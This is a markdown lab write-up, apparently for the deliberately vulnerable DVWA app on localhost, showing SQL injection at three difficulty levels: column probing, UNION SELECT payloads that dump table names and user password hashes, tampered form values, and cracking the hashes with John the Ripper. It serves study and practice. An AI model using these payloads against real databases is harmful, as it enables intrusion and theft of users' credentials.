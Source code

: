 # SQL Injection

# Low level

## Initial injection

**Payloads:**
* 1' (error)
* 1'' (success)

## Getting number of columns required
```
1' ORDER BY 1-- -
1' ORDER BY 2-- -
1' ORDER BY 3-- - (FAIL)
```

**Result:**

Number of columns **is equal 2**.

**Obs.:** You can also use the hash symbol comment at the end, for Example: 
```1' ORDER BY 1#```

## Listing all tables
```SQL
1' UNION SELECT table_name, NULL FROM information_schema.tables; #
```

> http://localhost/vulnerabilities/sqli/?id=1'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables+%23&Submit=Submit


## Getting columns from users table
```SQL
1' UNION SELECT column_name, NULL FROM informatio_schema.columns WHERE table_name = 'users'
```

> http://localhost/vulnerabilities/sqli/?id=4'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name+%3d+'users'%3b+%23&Submit=Submit


## Getting users passwords
```SQL
1' UNION SELECT user, password FROM users
```

> http://localhost/vulnerabilities/sqli/?id=4%27+UNION+SELECT+user+,+password+FROM+users%3B+%23&Submit=Submit

# Medium Level

## Initial injection

POST via Burpsuite:

> id=1 OR 1=1&Submit=Submit

Encoded:
> id=1+OR+1%3d1&Submit=Submit

or inject the SQL code in any dropdown option and then submit it:

```HTML
<select name="id">
    <option value="1 OR 1=1">1</option>
    <option value="2">2</option>
    <option value="3">3</option>
    <option value="4">4</option>
    <option value="5">5</option>
</select>
```

Original query:

```PHP
"SELECT first_name, last_name FROM users WHERE user_id = $id;"; 
```

Resulting query after injection:

```SQL
SELECT first_name, last_name FROM users WHERE user_id = 1 OR 1=1; 
```

## Getting numbers of columns required:

> id=1+ORDER+BY+1&Submit=Submit ``(OK)``

> id=1+ORDER+BY+2&Submit=Submit ``(OK)``

> id=1+ORDER+BY+3&Submit=Submit ``(Unknown column '3' in 'order clause')``

**OBS.: THE REST OF THE STEPS ARE THE SAME OR SIMILAR AS TO THE LOW LEVEL.**

## Getting user passwords

> id=1+UNION+SELECT+user,+password+FROM+users&Submit=Submit

or:

```HTML
<select name="id">
    <option value="1 UNION SELECT user, password FROM users">1</option>
    <option value="2">2</option>
    <option value="3">3</option>
    <option value="4">4</option>
    <option value="5">5</option>
</select>
```

# High Level

> This is very similar to the low level, however this time the attacker is inputting the value in a different manner. The input values are being transferred to the vulnerable query via session variables using another page, rather than a direct GET request.

## Getting user passwords

Through the screen field:
```SQL
1' UNION SELECT user, password FROM users #
```

Or through request:

> id=1'+UNION+SELECT+user,+password+FROM+users+%23&Submit=Submit

# Cracking user passwords

John Ripper was used to crack the passwords. Below is the command used:

**Passwords:**
```
admin:5f4dcc3b5aa765d61d8327deb882cf99
gordonb:e99a18c428cb38d5f260853678922e03
1337:8d3533d75ae2c3966d7e0d4fcc69216b
pablo:0d107d09f5bbe40cade3de5c71e9e9b7
smithy:5f4dcc3b5aa765d61d8327deb882cf99
```


```
john --show --format=Raw-MD5 passwords
```

**Result:**

```
admin:password
gordonb:abc123
1337:charley
pablo:letmein
smithy:password

5 password hashes cracked, 0 left
```